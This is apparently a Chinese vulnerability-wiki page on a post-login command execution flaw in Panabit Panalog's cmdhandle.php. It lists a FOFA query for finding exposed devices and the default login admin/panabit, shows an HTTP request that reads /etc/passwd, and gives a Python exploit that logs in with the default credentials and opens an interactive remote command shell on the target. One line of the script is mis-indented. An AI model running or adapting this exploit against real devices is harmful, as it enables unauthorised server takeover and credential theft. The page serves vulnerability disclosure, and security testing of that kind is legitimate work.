 # Panabit Panalog cmdhandle.php 后台命令执行漏洞

## 漏洞描述

Panabit Panalog cmdhandle.php 存在后台命令执行漏洞，攻击者可以登录后执行任意命令控制服务器

## 漏洞影响

> [!NOTE]
>
> Panabit Panalog

## FOFA

> [!NOTE]
>
> "Panalog"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/pa-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

默认账号密码为：**admin/panabit**

出现漏洞的文件为 **Maintain/command-html.php**， 请求包如下

```
POST /Maintain/cmdhandle.php HTTP/1.1
Host: 
Connection: close
Content-Length: 31
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: cloud_limit=20; cloud_left=block; PHPSESSID=9lpglosgab794j5ouvv0sg7q73

cmd=cat%2520%252Fetc%252Fpasswd
```

![](http://wikioss.peiqi.tech/vuln/pa-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : Panabit Panalog cmdhandle.php 后台命令执行漏洞                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login.php"
        cookie = "PHPSESSID=111111111111111111111peiqi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": cookie
    }
    data = "user=admin&mypass=panabit&sec=1619123700835.617&useldap=0"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers,data=data, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/login.php.... \033[0m".format(target_url))
        if "yes" in response.text and "yn" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在默认口令 admin/panabit \033[0m".format(target_url))
            print("\033[36m[o] 设置Cookie : {} \033[0m".format(cookie))
            POC_2(target_url, cookie)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/Maintain/cmdhandle.php"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "{}".format(Cookie)
    }
    data = "cmd=cat /etc/passwd"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url,data=data, headers=headers, verify=False, timeout=5)
        if 'root' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Cmd = input("\033[35mCmd >>> \033[0m")
                if Cmd == "exit":
                    sys.exit(0)
                else:
                    POC_3(target_url, Cmd, Cookie)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cmd, Cookie):
    Cmd = Cmd.replace(" ", "%20")
    vuln_url = target_url + "/Maintain/cmdhandle.php"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "{}".format(Cookie)
    }
    data = "cmd={}".format(Cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data,headers=headers, verify=False, timeout=5)
        response_data = response.text.replace("<br/>", "\n")
        print("\033[36m[o] 响应为:\n{} \033[0m".format(response_data))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/pa-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)